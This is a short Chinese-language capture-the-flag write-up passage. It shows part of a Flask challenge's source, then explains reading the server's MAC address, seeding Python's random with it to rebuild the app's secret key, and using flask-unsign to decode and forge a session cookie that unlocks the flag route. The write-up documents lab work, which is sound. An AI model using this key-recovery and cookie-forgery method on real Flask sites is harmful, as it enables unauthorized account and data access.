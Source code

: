 ```
    except Exception as ex:
        print str(ex)
    return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0"
    )
```

首先我们就要得到 (伪随机数的原理不用多说)

```
uuid.getnode() 从所有可用的地址中获得随机(或第一个)MAC 卡mac地址的十进制数 48位
```

我们需要去读取他的网卡地址

```
1 ifconfig命令查看网卡MAC地址
2 /sys/class/net/xxx/address查看
ip命令查看网卡MAC地址
```

`aa:cb:ba:0a:38:ea `注意使用python2和3都尝试一下哦

```
import uuid
import random

mac = "02:42:ac:10:9c:3a"
temp = mac.split(':')
temp = [int(i,16) for i in temp]
temp = [bin(i).replace('0b','').zfill(8) for i in temp]
temp = ''.join(temp)
mac = int(temp,2)
random.seed(mac)
randStr = str(random.random()*233)
```

神器

```
flask-unsign --decode --cookie 'eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.YJuCKw.COSA9fupuOO-gxLmD0q5u_lkLCY'
```

```
flask-unsign --sign --cookie '{'username':b'fuck'}' --secret  '222.550669756' --no-literal-eval
```

